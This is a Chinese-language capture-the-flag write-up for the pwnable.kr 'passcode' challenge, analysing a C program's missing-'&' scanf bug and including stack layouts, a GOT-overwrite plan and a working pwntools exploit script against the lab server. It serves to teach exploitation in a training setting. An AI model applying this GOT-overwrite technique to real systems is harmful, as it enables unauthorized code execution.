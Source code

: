 # passcode
## 1.分析逻辑
```c
void login(){
	int passcode1;
	int passcode2;

	printf("enter passcode1 : ");
	scanf("%d", passcode1);
	fflush(stdin);

	// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
	printf("enter passcode2 : ");
        scanf("%d", passcode2);

	printf("checking...\n");
	if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
		exit(0);
        }
}

void welcome(){
	char name[100];
	printf("enter you name : ");
	scanf("%100s", name);
	printf("Welcome %s!\n", name);
}

int main(){
	printf("Toddler's Secure Login System 1.0 beta.\n");

	welcome();
	login();

	// something after login...
	printf("Now I can safely trust you that you have credential :)\n");
	return 0;	
}
```
当`passcode1==338150 && passcode2==13371337`时输出flag，注意到scanf中的参数缺少了'&'因此不能直接输入。
# 2.漏洞
注意到welcome和login栈帧在同样的位置，可以通过构造写入到name中的数据来控制这两个变量。
用IDA观察栈的布局
login中两个变量位置为
```
int v1; // [esp+18h] [ebp-10h]
int v2; // [esp+1Ch] [ebp-Ch]
```
welcom中缓冲区位置为
```
char v1; // [esp+18h] [ebp-70h]
int v2; // [esp+1Ch] [ebp-Ch]
```
v2为canary，所以我们只能覆盖passcode1,不能覆盖passcode2，无法直接覆盖为对应数解决。
# 3.分析
本题可写GOT表，在`scanf("%d", passcode1);`后为printf函数，因此将passcode1覆盖为printfGOT表地址，然后跳到`system("/bin/cat flag");`即可。
printfGOT表地址为0804a000
```
.got.plt:08049FF4 _got_plt        segment dword public 'DATA' use32
.got.plt:08049FF4                 assume cs:_got_plt
.got.plt:08049FF4                 ;org 8049FF4h
.got.plt:08049FF4 _GLOBAL_OFFSET_TABLE_ dd offset _DYNAMIC
.got.plt:08049FF8 dword_8049FF8   dd 0                    ; DATA XREF: sub_8048410↑r
.got.plt:08049FFC dword_8049FFC   dd 0                    ; DATA XREF: sub_8048410+6↑r
.got.plt:0804A000 off_804A000     dd offset printf        ; DATA XREF: _printf↑r
.got.plt:0804A004 off_804A004     dd offset fflush        ; DATA XREF: _fflush↑r
```
跳转到080485e3
```
.text:080485E3                 mov     dword ptr [esp], offset command ; "/bin/cat flag"
.text:080485EA                 call    _system
```
# 4.利用
```python
from pwn import *
from zio3 import *
ssh = ssh(host='pwnable.kr',port =2222, user='passcode',password='guest')
sh = ssh.process(executable='./passcode')
printf_got=0x0804a000
payload1 = b'a'*(0x70-0x10)+l32(printf_got)
sys_addr=0x080485e3
payload2=str(sys_addr)
sh.recvuntil("enter you name :")
#sh.recvline()
sh.sendline(payload1)
sh.recvuntil("enter passcode1 :")
#sh.recvline()
sh.sendline(payload2)
print(sh.recvall())
```